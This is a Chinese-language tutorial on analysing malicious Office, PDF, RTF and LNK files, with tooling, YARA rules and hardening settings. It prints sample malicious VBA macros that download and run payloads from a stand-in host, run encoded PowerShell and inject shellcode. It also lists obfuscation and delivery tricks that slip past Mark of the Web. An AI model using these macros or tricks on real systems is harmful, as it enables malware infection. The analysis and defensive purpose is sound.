

# 恶意文档分析

> 从宏病毒到零日漏洞，系统化掌握恶意文档分析与逆向技术

---

## 一、恶意文档概述

### 1.1 常见恶意文档类型

| 类型 | 格式 | 攻击手法 |
|:-----|:-----|:---------|
| Office文档 | .doc/.docx/.xls/.xlsx/.ppt/.pptx | 宏/VBA/漏洞利用 |
| PDF | .pdf | JavaScript/漏洞/表单 |
| RTF | .rtf | OLE对象/漏洞 |
| HTML | .html/.htm | 钓鱼/漏洞/脚本 |
| 压缩包 | .zip/.rar | 捆绑payload |
| LNK | .lnk | PowerShell/命令执行 |
| ISO | .iso | 绕过Mark of the Web |
| OneNote | .one | 嵌入恶意文件 |

### 1.2 攻击链



### 1.3 分析环境

```bash
# 隔离环境
# 使用虚拟机 + 快照
# REMnux (恶意软件分析Linux发行版)
# Flare VM (Windows恶意分析虚拟机)

# 工具安装
# REMnux
wget https://REMnux.org/remnux-cli
chmod +x remnux-cli
./remnux-cli install

# Flare VM
# 在Windows虚拟机中以管理员运行PowerShell
(New-Object net.webclient).DownloadFile('https://github.com/mandiant/flare-vm/archive/main.zip', "$env:USERPROFILE\Desktop\flare-vm-main.zip")
Expand-Archive .\flare-vm-main.zip -DestinationPath "$env:USERPROFILE\Desktop"
Set-Location .\flare-vm-main
.\install.ps1
```

---

## 二、静态分析

### 2.1 Office文档分析

```bash
# 文件格式识别
file sample.doc
# Composite Document File V2 / OLE2 / Office Open XML

# OLE2格式 (.doc/.xls/.ppt)
# OOXML格式 (.docx/.xlsx/.pptx) - 实际是ZIP压缩包

# 解压OOXML
unzip sample.docx -d docx_output/
# docx_output/word/document.xml
# docx_output/word/vbaProject.bin (如果含宏)

# 使用oleid
oleid sample.doc
# 检查: 是否含宏/OLE对象/加密等

# oletools套件
# olevba - 提取和分析VBA宏
olevba sample.doc
olevba -c sample.doc  # 仅显示代码
olevba -a sample.doc  # 所有分析信息

# 提取宏代码
olevba -c sample.doc > macro_code.txt

# 分析宏代码
# 查看AutoOpen/Document_Open等自动执行函数
# 查看ShellExecute/CreateObject/URLDownload等API调用
```

### 2.2 VBA宏代码分析

```vba
' === 常见恶意VBA模式 ===

' 1. 下载执行
Sub AutoOpen()
    Dim xhr As Object
    Set xhr = CreateObject("MSXML2.XMLHTTP")
    xhr.Open "GET", "http://malicious.com/payload.exe", False
    xhr.Send
    
    Dim stream As Object
    Set stream = CreateObject("ADODB.Stream")
    stream.Open
    stream.Type = 1
    stream.Write xhr.responseBody
    stream.SaveToFile Environ("TEMP") & "\payload.exe", 2
    
    Call Shell(Environ("TEMP") & "\payload.exe", 0)
End Sub

' 2. PowerShell执行
Sub AutoOpen()
    Dim ps As Object
    Set ps = CreateObject("WScript.Shell")
    ps.Run "powershell -NoP -NonI -W Hidden -Exec Bypass -Enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEALgAxAC8AYwBvAG0AbQBvAG4AZAAuAHAAbwBsACcAKQA=', 0, False
End Sub

' 3. WMI持久化
Sub Document_Open()
    Dim wmi As Object
    Set wmi = GetObject("winmgmts:\\.\root\cimv2")
    wmi.Get("Win32_Process").Create "powershell -W Hidden -Enc SQBFAFgA...", Null, Null, pid
End Sub

' 4. Shellcode注入
Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal Destination As LongPtr, ByRef Source As Any, ByVal Length As Long) As LongPtr
Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal lpThreadAttributes As LongPtr, ByVal dwStackSize As Long, ByVal lpStartAddress As LongPtr, lpParameter As LongPtr, ByVal dwCreationFlags As Long, ByRef lpThreadId As Long) As LongPtr

Sub AutoOpen()
    Dim buf As Variant
    ' shellcode bytes
    buf = Array(232, 137, 0, 0, 0, 96, 137, 229, 49, 210, 101, 139, 82, 48, 139, 82, 12, 139, 82, 20, 139, 114, 40, 15, 183, 74, 38, 49, 255, 172, 60, 97, 124, 2, 44, 32, 193, 207, 13, 1, 199, 226, 242, 82, 87, 139, 82, 16, 139, 74, 12, 139, 18, 139, 86, 60, 139, 74, 24, 139, 88, 32, 139, 83, 60, 139, 73, 24, 227, 60, 73, 139, 52, 139, 1, 214, 49, 255)
    
    ' 分配内存 -> 复制shellcode -> 执行
    Dim addr As LongPtr
    addr = VirtualAlloc(0, UBound(buf) + 1, &H1000, &H40)
    RtlMoveMemory addr, buf(0), UBound(buf) + 1
    CreateThread 0, 0, addr, 0, 0, 0
End Sub
```

### 2.3 混淆还原

```vba
' === VBA混淆技术 ===

' 1. 字符串分割
s = "ht" & "tp://" & "mali" & "cious.com" & "/pay" & "load.exe"

' 2. Chrw()编码
s = Chr(104) & Chr(116) & Chr(116) & Chr(112) & Chr(58) & Chr(47) & Chr(47)

' 3. 变量名混淆
Dim a1 As String, a2 As String, a3 As String
a1 = "http://"
a2 = "malicious"
a3 = ".com/payload.exe"
Call Shell(a1 & a2 & a3, 0)

' 4. 计算混淆
x = (1 + 2 + 3) * 7  ' 42
y = Asc("A")  ' 65

' 5. 垃圾代码插入
Dim trash(100) As Integer
For i = 0 To 100
    trash(i) = i * 3 \ 2 + 5
Next i

' 6. 动态调用
Set obj = CreateObject(Chr(87) & Chr(83) & Chr(99) & Chr(114) & Chr(105) & Chr(112) & Chr(116) & Chr(46) & Chr(83) & Chr(104) & Chr(101) & Chr(108) & Chr(108))

' 7. 使用Eval
cod = "She" & "ll(""cm" & "d.ex" & "e /c " & Chr(34) & Chr(34) & ", 0)"
Eval cod

' === 反混淆方法 ===
' - 使用oledump提取宏
' - 使用vba2graph可视化
' - 手动替换混淆变量
' - Debug.Print输出实际值
```

### 2.4 PDF分析

```bash
# PDF分析工具
pdfid sample.pdf
# obj: 对象数
# /JS - JavaScript
# /JavaScript - JavaScript
# /AA - 自动执行动作
# /OpenAction - 打开动作
# /Launch - 启动程序

# 详细分析
pdf-parser.py sample.pdf

# 提取JavaScript
pdf-parser.py -s /JS sample.pdf
pdf-parser.py --raw -o 1 sample.pdf  # 提取对象1的原始数据

# 检测已知漏洞
peepdf sample.pdf
peepdf -f sample.pdf -g

# PDF流提取
pdf-streams-extractor sample.pdf
```

### 2.5 RTF分析

```bash
# RTF是格式化文本，可嵌入OLE对象
file sample.rtf

# RTF分析工具
rtfobj sample.rtf
# 提取OLE对象

# 查看结构
cat sample.rtf | strings

# 查找OLE对象
grep -a "object\|oleObject\|bin" sample.rtf
```

### 2.6 LNK分析

```bash
# LNK文件分析
# LNK文件包含目标路径、参数、图标等

# 使用LNK解析工具
lnk-parse sample.lnk

# 查看目标
strings sample.lnk

# 使用exiftool
exiftool sample.lnk

# Python解析
python3 << 'EOF'
import pylnk3
with open('sample.lnk', 'rb') as f:
    lnk = pylnk3.LNK(f)
    print(f"Target: {lnk.get_path()}")
    print(f"Arguments: {lnk.get_arguments()}")
    print(f"Icon: {lnk.get_icon_location()}")
EOF
```

---

## 三、动态分析

### 3.1 沙箱运行

```bash
# 在隔离环境中打开文档
# 使用Process Monitor监控

# Procmon监控
# 过滤条件:
# Process Name = WINWORD.EXE / EXCEL.EXE
# Operation = Process Create / RegSetValue / WriteFile

# API Monitor监控
# 监控文件/注册表/网络API

# WireShark抓包
# 监控DNS/HTTP/HTTPS连接

# 使用Cuckoo沙箱
cuckoo submit sample.doc
cuckoo status
```

### 3.2 网络行为分析

```bash
# 设置INetSim模拟网络
inetsim --conf-dir /etc/inetsim/

# 使用FakeNet-NG
python faketnet.py

# DNS监控
tcpdump -i lo port 53

# HTTP监控
# 使用Burp Suite作为代理
# 文档中的URL会请求到本地代理

# 配置主机DNS
echo "127.0.0.1 malicious.com" >> /etc/hosts
```

### 3.3 内存分析

```bash
# 在恶意文档执行后获取内存dump
# 使用Volatility分析

# 获取内存镜像
# 从VMware: .vmem文件
# 使用DumpIt.exe
# 使用winpmem

# Volatility分析
volatility -f memory.dmp imageinfo
volatility -f memory.dmp --profile=Win10x64 pslist
volatility -f memory.dmp --profile=Win10x64 netscan
volatility -f memory.dmp --profile=Win10x64 malfind
volatility -f memory.dmp --profile=Win10x64 dlllist

# 提取进程内存
volatility -f memory.dmp --profile=Win10x64 procdump -p 1234 -D output/
```

---

## 四、Shellcode分析

### 4.1 Shellcode提取

```bash
# 从VBA宏提取shellcode
# 通常在Array()函数中的字节

# 使用scdbg模拟执行
scdbg -f shellcode.bin
scdbg -f shellcode.bin -s  # 显示API调用

# 使用shellcode2exe
shellcode2exe.py shellcode.bin

# 使用ndisasm反汇编
ndisasm -b 32 shellcode.bin
ndisasm -b 64 shellcode.bin

# 使用在线分析
# https://defuse.ca/online-x86-assembler.htm
```

### 4.2 Shellcode分析示例

```python
import struct

def analyze_shellcode(data):
    print(f"Size: {len(data)} bytes")
    
    # 检查常见特征
    if b'\xfc\xe8' in data:  # cld + call
        print("Meterpreter-like shellcode detected")
    if data[:2] == b'\xeb\xfe':  # JMP $-2
        print("Infinite loop (anti-emulation)")
    if b'\xcc' in data:  # INT3
        print("Contains breakpoints")
    
    # 检查API hash
    # 常见Meterpreter hash
    hashes = [
        (0x56a2b5f0, "Ws2_32.WSAStartup"),
        (0x9b128750, "ws2_32.WSASocketA"),
        (0xa4c1055f, "ws2_32.bind"),
        (0xf7800a2b, "ws2_32.listen"),
        (0x2e8f2b7, "ws2_32.accept"),
    ]
    
    # 检查加密特征
    if b'\x00\x00\x00\x00' in data[:16]:
        print("Possible XOR key in header")
    
    # 导出分析结果
    with open('shellcode_analysis.txt', 'w') as f:
        f.write(f"Analysis of shellcode ({len(data)} bytes)\n")
        for i, b in enumerate(data[:100]):
            f.write(f"{i:04x}: {b:02x} {chr(b) if 32 <= b < 127 else '.'}\n")

# 使用
with open('shellcode.bin', 'rb') as f:
    analyze_shellcode(f.read())
```

---

## 五、封装与投递技术

### 5.1 压缩包投递

```bash
# 压缩包绕过Mark of the Web
# MotW: Zone.Identifier alternate data stream

# 使用压缩包移除MotW
# .zip 文件默认不继承MotW
# .iso/.vhd 镜像文件也不继承MotW

# ISO文件投递
# 创建包含payload的ISO镜像
mkisofs -o payload.iso payload_folder/

# Windows原生挂载ISO (不需要额外软件)
# ISO内的文件没有MotW标记

# 双层压缩
# payload.zip -> 内含另一个zip
# 绕过部分扫描器

# 密码保护压缩包
# 密码: "123" / "infected" / "virus"
zip -P infected payload.zip malicious.doc
```

### 5.2 Office高级投递

```vba
' === 社会工程诱导 ===
' 1. "启用内容"诱导
' - 显示伪装的安全警告图片
' - 说明"需要启用内容才能查看文档"

' 2. 加密文档
' - 使用密码保护的文档
' - 密码在文档正文中提示
' - 绕过部分扫描器

' 3. 外部链接图片
' - 文档中包含指向攻击者服务器的图片
' - 图片加载触发DNS/HTTP请求
' - 用于确认目标是否打开文档

' 4. DDE (动态数据交换) - 已修复
' {DDE "cmd" "/c calc.exe"}
' {DDEAUTO "c:\\windows\\system32\\cmd.exe" "/c calc.exe"}
```

### 5.3 现代投递技术

```bash
# OneNote文件投递
# .one 文件可嵌入文件附件
# 双击附件执行

# HTML走私 (HTML Smuggling)
# JavaScript在浏览器中组装payload
# 绕过网络扫描器

# Windows快捷方式 (.lnk)
# LNK文件指向远程payload
# 使用PowerShell执行

# VBS/JS文件
# .vbs/.js文件双击执行
# 通过WSH运行
```

---

## 六、检测与防御

### 6.1 检测规则

```yacas
# YARA规则 - Office宏检测
rule Suspicious_VBA_Download
{
    meta:
        description = "Detects VBA downloading files"
        author = "Analyst"
        date = "2024-01-01"
    
    strings:
        $url = "http" nocase
        $xmlhttp = "XMLHTTP" nocase
        $download = "DownloadString" nocase
        $stream = "ADODB.Stream" nocase
        $save = "SaveToFile" nocase
        $shell = "Shell" nocase
        $create = "CreateObject" nocase
        $wmi = "Win32_Process" nocase
    
    condition:
        $url and ($xmlhttp or $download) and ($save or $shell)
}

rule Suspicious_VBA_Shellcode
{
    meta:
        description = "Detects VBA with shellcode injection"
    
    strings:
        $va = "VirtualAlloc" nocase
        $rmm = "RtlMoveMemory" nocase
        $ct = "CreateThread" nocase
        $array = "Array("
        $declar = "Declare" nocase
    
    condition:
        $declar and $va and $rmm and $ct and $array
}

# PDF恶意检测
rule Suspicious_PDF_JavaScript
{
    meta:
        description = "Detects PDF with suspicious JavaScript"
    
    strings:
        $js = "/JavaScript" nocase
        $aa = "/AA" nocase
        $open = "/OpenAction" nocase
        $launch = "/Launch" nocase
        $submit = "/SubmitForm" nocase
    
    condition:
        ($js or $aa or $open) and $launch
}

# LNK文件检测
rule Suspicious_LNK_File
{
    meta:
        description = "Detects suspicious LNK files"
    
    strings:
        $ps = "powershell" nocase
        $cmd = "cmd.exe" nocase
        $wscript = "wscript" nocase
        $hidden = "hidden" nocase
        $bypass = "bypass" nocase
    
    condition:
        $ps and $hidden and $bypass
}
```

### 6.2 防御配置

```powershell
# Office宏安全设置
# 组策略
计算机配置 -> 管理模板 -> Microsoft Office -> 安全设置
- 禁用所有宏
- VBA宏通知设置
- 阻止宏通过Internet运行

# 注册表禁用宏
reg add "HKCU\Software\Microsoft\Office\16.0\Word\Security" /v "VBAWarnings" /t REG_DWORD /d 4 /f
reg add "HKCU\Software\Microsoft\Office\16.0\Excel\Security" /v "VBAWarnings" /t REG_DWORD /d 4 /f

# 阻止从Internet下载的Office文档启用宏
reg add "HKCU\Software\Microsoft\Office\16.0\Word\Security" /v "BlockContentExecutionFromInternet" /t REG_DWORD /d 1 /f
reg add "HKCU\Software\Microsoft\Office\16.0\Excel\Security" /v "BlockContentExecutionFromInternet" /t REG_DWORD /d 1 /f

# ASR规则 - 阻止Office创建子进程
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Windows Defender Exploit Guard\ASR\Rules" /v "d4f940ab-401b-4efc-aadc-ad5f3c50688a" /t REG_DWORD /d 1 /f

# 阻止Office创建可执行内容
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Windows Defender Exploit Guard\ASR\Rules" /v "3b576869-a4ec-4529-8536-b80a7769e899" /t REG_DWORD /d 1 /f
```

---

## 七、自动化分析框架

### 7.1 工具集成

```bash
# 1. 使用oletools批量分析
for file in *.doc *.docx *.xls *.xlsx *.ppt *.pptx; do
    echo "=== $file ==="
    olevba "$file" 2>/dev/null | grep -E "(Suspicious|IOC|AutoExec)"
done

# 2. 使用YARA扫描
yara -r rules.yar samples/

# 3. 使用CAPA检测
capa malicious.doc

# 4. 使用ClamAV
clamscan malicious.doc
```

### 7.2 分析管道

```python
#!/usr/bin/env python3
"""恶意文档自动分析管道"""
import subprocess
import json
import sys

def analyze_document(filepath):
    results = {
        'file': filepath,
        'macros': False,
        'suspicious': [],
        'iocs': []
    }
    
    # 1. olevba分析
    result = subprocess.run(
        ['olevba', '--json', filepath],
        capture_output=True, text=True
    )
    if result.returncode == 0:
        data = json.loads(result.stdout)
        if data.get('macros'):
            results['macros'] = True
            for indicator in data.get('indicators', []):
                if indicator.get('type') in ['Suspicious', 'IOC']:
                    results['suspicious'].append(indicator)
    
    # 2. 提取IOC
    result = subprocess.run(
        ['olevba', '-c', filepath],
        capture_output=True, text=True
    )
    code = result.stdout
    
    # 提取URL
    import re
    urls = re.findall(r'https?://[^\s"\']+', code)
    results['iocs'].extend(urls)
    
    # 提取IP
    ips = re.findall(r'\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}', code)
    results['iocs'].extend(ips)
    
    return results

if __name__ == '__main__':
    results = analyze_document(sys.argv[1])
    print(json.dumps(results, indent=2))
```

---

## 八、速查总表

### 8.1 工具速查

| 工具 | 用途 | 安装 |
|:-----|:-----|:------|
| olevba | VBA宏分析 | `pip install oletools` |
| oleid | OLE文件识别 | `pip install oletools` |
| pdf-parser | PDF分析 | `apt install pdf-parser` |
| peepdf | PDF分析 | `pip install peepdf` |
| scdbg | Shellcode模拟 | 下载运行 |
| YARA | 模式匹配 | `apt install yara` |
| CAPA | 能力检测 | `pip install capa` |
| REMnux | 恶意软件分析 | remnux.org |
| Flare VM | Windows分析环境 | github.com/mandiant/flare-vm |
| Procmon | 进程监控 | Microsoft Sysinternals |
| Volatility | 内存取证 | volatilityfoundation.org |

### 8.2 检查清单

```
□ 文件格式识别 (file命令)
□ OLE结构分析 (oleid)
□ 宏代码提取 (olevba)
□ 宏代码分析 (手动/自动)
□ Shellcode提取 (如有)
□ PDF对象分析 (pdf-parser)
□ RTF对象提取 (rtfobj)
□ LNK目标分析 (lnk-parse)
□ YARA规则扫描
□ 沙箱动态运行
□ 网络行为监控
□ 文件系统变化监控
□ 进程行为监控
□ 内存提取分析
□ IOC提取 (URL/IP/Domain/Hash)
□ 报告生成
```

### 8.3 IOC提取快速命令

```bash
# URL/IP提取
strings malicious.doc | grep -E "https?://|\\d{1,3}\\.\\d{1,3}\\.\\d{1,3}\\.\\d{1,3}"

# Hash计算
md5sum malicious.doc
sha256sum malicious.doc

# YARA扫描
yara -w rules.yar malicious.doc

# VirusTotal查询
curl -s "https://www.virustotal.com/api/v3/files/{hash}" -H "x-apikey: $API_KEY"

# 提交分析
curl -X POST "https://www.virustotal.com/api/v3/files" -F "file=@malicious.doc" -H "x-apikey: $API_KEY"
```

---

> **参考资源**
>
> - oletools Documentation
> - REMnux Documentation
> - Flare VM Documentation
> - YARA Documentation
> - SANS FOR610 Reverse Engineering Malware
> - Practical Malware Analysis
